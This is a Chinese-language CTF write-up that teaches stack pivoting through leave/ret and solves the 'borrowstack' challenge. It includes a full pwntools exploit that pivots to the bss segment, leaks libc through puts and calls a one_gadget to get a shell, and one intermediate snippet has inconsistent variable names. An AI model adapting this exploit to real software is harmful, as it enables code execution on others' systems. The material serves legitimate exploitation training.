


# 栈迁移（新）

> 前面刚总结完的笔记感觉不太完善，然后再做了题后，理解更加透彻，重新整理一下。

## 介绍

当存在栈溢出且可溢出长度不足以容纳 payload 时，可采用栈迁移。一般这种情况下，溢出仅能覆盖 ebp 、 eip 。因为原来的栈空间不足，所以要构建一个新的栈空间放下 payload ，因此称为栈迁移。

## 大概原理

首先栈执行命令是从 esp 开始向 ebp 方向逐条执行，也就是从低地址到高地址逐条执行。触发栈迁移的关键指令：``leave|ret``，等效于``mov esp ebp; pop ebp; ret;``，作用是将 ebp 赋值给 esp ，并弹出 ebp 。

正常情况下退出栈时，esp 指向 ebp 所在位置，ebp 指向 ebp 所存储的位置。等同于执行一个 leave ret 的效果。



栈迁移：通过直接控制 ebp 的值，借助 leave 指令，间接控制  esp 的值。从上图可见，正常退出 esp 会指向原 ebp 位置。如果我们覆盖 eip 再次执行 leave 指令，esp 将会指向 0x400a0 的位置（ebp 将指向当前 ebp 存储的地址），也就是将栈迁移到 0x400a0 。通过提前布置 ebp 中的地址和调用 leave 指令，可完成连续多次栈迁移。

在上图中也可以看出，栈迁移的地址信息被提前写入，所以明确并提前计算栈被迁移到的内存地址，是栈迁移的关键。当然也是有骚操作，可不提前写入的，详情看下面题目分析。

在我看来，栈迁移不能算是在内存地址中创建了一个完整的栈结构，而是复刻了栈从高地址到低地址依次执行命令的功能。因为一般情况下多次栈迁移，ebp 地址与 esp 地址关系比较奇怪，ebp 地址会比 esp 低，特别是最后一次栈迁移，ebp 的值不再重要，可被指向到奇奇怪怪的地址，这不相当于没有 ebp 的栈么。

## 题目

> 题目来自 i春秋新春战役 borrowstack

### 题目介绍

只打开 NX 保护的64 位程序。程序内容为：提示输入两次。

```shell
ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=3d3f6ef2905eff37d82ebb1bfa6e7c4e75384eff, not stripped
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

### 漏洞

第一处提示输入存在溢出，可溢出 0x10 ，仅可以覆盖 ebp、eip 。第二处输入允许向 bank 写入 0x100 字节，bank 位于 bss 段头。

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-60h]

  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  puts(&s);
  read(0, &buf, 0x70uLL);//可溢出0x10字节
  puts("Done!You can check and use your borrow stack now!");
  read(0, &bank, 0x100uLL);
  return 0;
}
```

这条题目目的就是引导我们将栈迁移到 bss 段，并且为我们预留了写入 bss 段的函数。

这里插一嘴，如果没有这个预留函数，但是可以溢出更长又不足够放下 payload（如：0x30）怎么解决？控制 eip 构建一个写入函数，然后才再调用指令 leave 。（该套路题目：[HITCON-Training-master lab6](https://github.com/scwuaptx/HITCON-Training)）

### 利用

最最最普通的，没有骚操作的栈迁移题目（也就是本题），会进行两次栈迁移。第一次迁移泄露 libc 基地址，并且为第二次执行 one_gadget 之类 get shell。

**大概攻击流程**

1. 栈溢出控制 ebp 为第一次栈迁移做准备，控制 eip 再次执行 leave 指令。
2. 写入第一次迁移的栈数据，功能需要有：泄露 libc 基地址，为第二次迁移做准备。
3. 第二次迁移的栈执行 one_gadget 。


栈溢出的话问题不大，在第一次 read 写入 0x60 就到 ebp ，然后按需覆盖就可以。比如说我决定将第一次栈迁移到 bank+0x90 ，那么 ebp 就覆盖为 bank+0x90 。调准地址明确了，下一步就需要触发栈迁移了，也就是在执行一次 leave 指令，通过覆写 eip 为 leave 。(bank地址为0x601080 ， leave地址为0x400699)

```python
payload_0 = 'a'*0x60
payload_0 += bank+0x90
payload_0 += leave
```


第一次栈迁移外部准备完成，就需要向 bank+0x90 写入需要执行的代码。这道题是利用的是第二次 read 输入 stack 1 数据。前面说过，需要进行两次迁移，所以在输入 stack 1 数据要考虑第二次栈迁移的地址，我选择 bank+0x60 。

在 stack 1 需要泄露出 libc 基地址，写入stack 2 数据。泄露地址就选择一个函数真实地址输出并计算偏移，然后调用 main 函数中的 read2 写入 stack 2 ，因为顺序执行，因此还执行了一次 leave （即 main 函数从 read2 开始运行一遍），触发第二次栈迁移。

```python
payload_1 = '\0'*0x90		#填充到bank+0x90
payload_1 += p64(bank+0x60)	#stack2地址
payload_1 += p64(pop_rdi)	#传参
payload_1 += p64(puts_got)	#泄露函数
payload_1 += p64(puts_plt)
payload_1 += p64(0x400680)	#main中的read2&leave
```


stack 1 准备完成，并且为 stack 2 预留写入函数，接下来就是处理并写入 stack 2 。因为这个栈已经是最后一个栈，所以不需要关心 ebp 的值，我给它赋值 0xdeadbeef 。

如果遇到有的题目需要3 次、 4 次等多次迁移，就将 ebp 赋值为下一次迁移的地址，直到最后一次。

```python
libc_base=u64(p.recv(6)[:].ljust(8,'\0'))-libc.symbols['puts']					#泄露libc基地址
payload = 'a'*0x60						#填充到bank+0x60
payload_2 += p64(0xdeadbeef)			#ebp值
payload += p64(one_gadget+libc_base)	#one_gadget
p.sendline(pay)

p.interactive()
```

填充跳转示意图：



完整 exp 

```python
from pwn import *

context.log_level = 'debug'
p = process("./borrowstack")
elf = ELF("./borrowstack")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

bank = 0x601080
pop_rdi = 0x400703
leave = 0x400699
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
one_gadget = 0xf02a4

payload_0 = 'a'*0x60
payload_0 += p64(bank+0x90) + p64(leave)
p.recvuntil('want')
p.send(payload_0)

payload_1='\0'*0x90+p64(bank+0x60)+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)
payload_1+=p64(0x0400680)
p.sendafter('now!\n',payload_1)

libc_base=u64(p.recv(6)[:].ljust(8,'\0'))-libc.symbols['puts']
info("one:"+hex(libc_base+one_gadget))

payload_2='a'*0x60+p64(0xdeadbeef)+p64(one_gadget+libc_base)
p.sendline(payload_2)

p.interactive()

```

前面提到过，多次连续栈迁移需要提前明确每次栈空间地址。就好像上面那题目，stack 2 地址在写入 stack 1 数据的一并写入。其实 stack 2 地址也可以在执行 stack 1 的时候再写入。但一定要注意：执行的命令写入位置是在 esp + 0x8 位置。

```python
payload_1 = '\0'*0x90		#填充到bank+0x90
payload_1 += '\0'*0x8		#填充（原应写入ebp）
payload_1 += p64(pop_rdi)	#传参
payload_1 += p64(puts_got)	#泄露函数
payload_1 += p64(puts_plt)

payload_1 += p64(pop_ebp)	#传参ebp
payload_1 += p64(bank+0x60)	#stack 2

payload_1 += p64(0x400680)	#main中的read2&leave
```

32 位是栈传参；64 位前 6 个参数是寄存器传参，后面的栈传参 [Link](http://abcdxyzk.github.io/blog/2012/11/23/assembly-args/) 。

## 总结

栈迁移可以用在栈溢出但是空间不足的情况下，构建虚拟栈空间。

栈迁移通过直接直接控制 ebp 来间接控制 esp ，实现关键指令（函数）为 leave 或其他可以将 ebp 赋值给 esp 的指令。

栈迁移构建的虚拟栈，不算是一个完整的栈，更像是栈的顺序执行结构，因为 esp 与 ebp 之间关系可能会异于正常。